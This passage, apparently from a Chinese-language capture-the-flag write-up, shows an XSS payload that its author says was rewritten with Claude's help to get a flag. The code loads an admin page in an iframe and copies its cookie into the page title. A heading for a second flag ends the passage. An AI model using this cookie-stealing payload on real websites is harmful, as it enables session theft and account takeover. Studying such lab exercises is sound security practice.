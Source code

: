 <img src="img/claude.png" alt="image-20231021125105946" style="zoom: 60%;" />

**优！雅！**在Claude的帮助下重写代码拿到flag。

```html
<iframe id="xss" src="../admin"></iframe>

<script>
var iframe = document.getElementById("xss");
iframe.onload = function() {
  var doc = iframe.contentDocument; 
  document.title = doc.cookie;
}
</script>
```

#### flag2
